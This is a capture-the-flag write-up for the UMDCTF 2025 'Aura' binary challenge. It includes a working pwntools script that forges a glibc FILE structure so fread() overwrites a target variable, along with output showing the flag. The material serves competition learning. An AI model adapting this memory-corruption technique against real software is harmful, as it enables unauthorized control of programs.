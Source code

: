 ```yaml
---
title: "Aura 🌟 – FILE Structure Forgery Exploit (UMDCTF 2025)"
tags: [CTF, binary exploitation, FILE Structure Forgery, pwn]
---
```


# UMDCTF 2025 - Aura Pwn Challenge Writeup 🌟

![CTF](https://img.shields.io/badge/CTF-UMDCTF_2025-blue)
![Challenge](https://img.shields.io/badge/Challenge-Aura-informational)
![Category](https://img.shields.io/badge/Category-Pwn-red)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)

## Table of Contents 📚
- [Challenge Overview](#challenge-overview-) 📄
- [Introduction](#introduction-) 🎯
- [Source Code Analysis](#source-code-analysis-) 🔍
- [Exploitation Plan](#exploitation-plan-) 🛠️
- [Exploit Script](#exploit-script-) 🧠
- [Result](#result-) 🏆
- [Final Notes](#final-notes-) ✨

## Challenge Overview 📄

- **Binary:** aura (ELF 64-bit)

**Protections:**
```
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
Stripped: No
```

## Introduction 🎯

We are given a binary `aura`. When executed, it leaks a heap address ("aura") and expects us to submit a crafted structure.  
The goal is to forge a fake FILE structure and leverage `fread()` to overwrite "aura" into a non-zero value.

## Source Code Analysis 🔍

```c
// Main relevant parts
printf("my aura: %p\nur aura? ", &aura);
FILE *pFVar1 = fopen("/dev/null", "r");
read(0, pFVar1, 0x100);
fread(local_118, 1, 8, pFVar1);

if (aura == 0) {
    puts("u have no aura.");
} else {
    pFVar1 = fopen("flag.txt", "r");
    fread(local_138, 1, 0x11, pFVar1);
    printf("%s\n", local_138);
}
```

## Exploitation Plan 🛠️

1. Leak the heap address of `aura`.
2. Forge a valid `_IO_FILE` structure where:
    - `_IO_buf_base = aura`
    - `_IO_buf_end = aura + 0x10`
3. Overwrite "aura" with any non-zero bytes via `fread()`.
4. Access "flag.txt"!

## Exploit Script 🧠

```python
from pwn import *
import argparse

def connect(host=None, port=None):
    return remote(host, port) if host and port else process('./aura')

def leak_aura(p):
    p.recvuntil(b'my aura: ')
    return int(p.recvline().strip(), 16)

def forge_payload(aura_addr):
    payload  = p64(0) * 7
    payload += p64(aura_addr) + p64(aura_addr + 0x10)
    payload = payload.ljust(0x88, b' ')
    payload += p64(aura_addr)
    return payload

def exploit(p):
    aura = leak_aura(p)
    p.recvuntil(b'ur aura? ')
    p.send(forge_payload(aura))
    p.sendline(b'A'*8)
    p.interactive()

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', type=str)
    parser.add_argument('--port', type=int)
    args = parser.parse_args()
    p = connect(args.host, args.port)
    exploit(p)

if __name__ == '__main__':
    main()
```

## Result 🏆

```bash
$ python3 aura.py --host challs.umdctf.io --port 31006
[+] Leaked aura address: 0x58cc312f908c
[*] Sending forged FILE structure
[*] Overwriting aura value
[*] Switching to interactive mode
UMDCTF{+100aur4}
```

## Final Notes ✨

This challenge introduces basic but fun FILE structure manipulation, similar to concepts seen in "House of Orange" style heap exploitation.

🔙 [Back to UMDCTF 2025 Writeups](../../)
